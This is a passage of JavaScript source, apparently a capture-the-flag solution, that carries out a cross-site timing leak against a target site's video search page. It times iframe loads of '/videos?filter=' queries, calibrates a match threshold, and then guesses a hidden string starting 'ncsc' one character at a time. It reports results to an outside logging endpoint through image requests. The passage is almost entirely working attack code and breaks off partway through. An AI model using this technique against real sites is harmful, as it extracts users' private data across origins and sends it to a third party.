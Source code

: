```xml
    }
    function median(arr){
      const a = arr.slice().sort((x,y)=>x-y);
      const m = a.length>>1;
      return a.length%2 ? a[m] : 0.5*(a[m-1]+a[m]);
    }
    async function measureOnce(filter){
      const {fo, fr} = addIFrame(ORIGIN + '/videos?filter=' + encodeURIComponent(filter));
      const t0 = performance.now();
      await new Promise(r => {
        fr.addEventListener('load', r, {once:true});
        setTimeout(r, TIMEOUT);
      });
      const dt = performance.now() - t0;
      fo.remove();
      return dt;
    }
    async function measure(filter, tries=TRIES){
      const vals = [];
      for (let i=0;i<tries;i++) vals.push(await measureOnce(filter));
      return median(vals);
    }

    let THR = null;
    async function calibrate(){
      const tYes = await measure('Mansaf');   // known "match": embeds YouTube iframe
      const tNo  = await measure('zzqjxk');   // known "no-match"
      // pick a conservative threshold slightly closer to 'match' to reduce false negatives
      THR = tNo + 0.3*(tYes - tNo);
      new Image().src = LOG + encodeURIComponent(`cal tYes=${Math.round(tYes)} tNo=${Math.round(tNo)} thr=${Math.round(THR)}`);
    }
    async function isMatch(filter){
      if (THR === null) await calibrate();
      const tx = await measure(filter);
      return tx > THR;
    }

    async function extendRight(prefix){
      let s = prefix;
      // Keep appending the first character that preserves "match" and doesn't collide with known titles
      while (true){
        let grew = false;
        for (const ch of ALPHA){
          const t = (s + ch).trim();
          if (await isMatch(t) && !inKnown(t)){ s = t; grew = true; break; }
        }
        if (!grew) return s.replace(/\s{2,}/g,' ').trim();
      }
    }

    async function init(){
      try{
        await calibrate();

        // Start from the user-requested prefix "NCSC"
        let seed = 'ncsc'; // case-insensitive search on server
        // Optional: if plain 'ncsc' doesn't classify as match, try a trailing space
        if (!(await isMatch(seed))) {
          if (await isMatch(seed + ' ')) seed = seed + ' ';
        }
        if (!(await isMatch(seed))) {
```